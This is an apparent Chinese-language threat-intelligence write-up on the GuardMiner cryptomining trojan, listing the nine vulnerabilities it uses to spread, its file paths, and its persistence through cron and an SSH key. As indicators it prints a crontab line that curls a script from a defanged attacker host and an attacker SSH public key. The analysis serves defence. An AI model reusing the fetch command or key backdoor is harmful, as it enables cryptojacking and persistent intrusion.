 ## GuardMiner

2021-3-8

GuardMiner最早出现于2019年，至今已活跃超过2年，该挖矿木马通过Go语言编写的二进制程序针对Windows平台和Linux平台进行攻击传播，通过crontab定时任务以及安装SSH公钥后门进行持久化控制，并且还会利用比特币的交易记录来动态更新C2地址。

分析发现，GuardMiner挖矿团伙最新的攻击活动利用了多达9种攻击传播手法：

1) CCTV设备RCE漏洞；
2) Redis未授权访问漏洞；
3) Drupal框架CVE-2018-7600漏洞；
4) Hadoop未授权访问漏洞；
5) Spring RCE漏洞CVE-2018-1273；
6) Thinkphp V5高危漏洞；
7) WebLogic RCE漏洞CVE-2017-10271；
8) SQL Server弱口令爆破；
9) Elasticsearch RCE漏洞 CVE-2015-1427、CVE-2014-3120

文件和进程：
/etc/phpguard
/etc/phpupdate
/etc/networkmanager

Crontab任务：
*/30 * * * * sh /etc/newdat.sh
*/2 * * * * curl -fsSL hxxp://h.epelcdn.com/dd210131/pm.sh

SSH公钥（/root/.ssh/authorized_keys）：
AAAAB3NzaC1yc2EAAAADAQABAAABAQC9WKiJ7yQ6HcafmwzDMv1RKxPdJI/oeXUWDNW1MrWiQNvKeSeSSdZ6NaYVqfSJgXUSgiQbktTo8Fhv43R9FWDvVhSrwPoFBz9SAfgO06jc0M2kGVNS9J2sLJdUB9u1KxY5IOzqG4QTgZ6LP2UUWLG7TGMpkbK7z6G8HAZx7u3l5+Vc82dKtI0zb/ohYSBb7pK/2QFeVa22L+4IDrEXmlv3mOvyH5DwCh3HcHjtDPrAhFqGVyFZBsRZbQVlrPfsxXH2bOLc1PMrK1oG8dyk8gY8m4iZfr9ZDGxs4gAqdWtBQNIN8cvz4SI+Jv9fvayMH7f+Kl2yXiHN5oD9BVTkdIWX root@u17

![GuardMiner原理图](https://github.com/G4rb3n/Malware-Picture/blob/master/Miner/GuardMiner/2103/guardminer.png)

参考链接
```
https://s.tencent.com/research/report/1265.html
```